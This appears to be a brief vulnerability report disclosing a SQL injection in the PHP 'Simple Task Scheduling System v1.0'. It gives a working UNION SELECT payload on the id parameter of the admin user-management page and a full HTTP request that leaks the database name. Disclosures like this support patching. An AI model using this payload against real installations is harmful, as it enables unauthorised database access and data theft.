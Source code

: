 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

Vulnerability File: /tss/admin/?page=user/manage_user&id=

Vulnerability location: /tss/admin/?page=user/manage_user&id=, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ // Leak place ---> id

```sql
GET /tss/admin/?page=user/manage_user&id=-7%27%20union%20select%201,database(),3,4,5,6,7,8,9,10,11--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/179391954-1faf970a-02cf-4aa4-93ed-f553c28921e2.png)
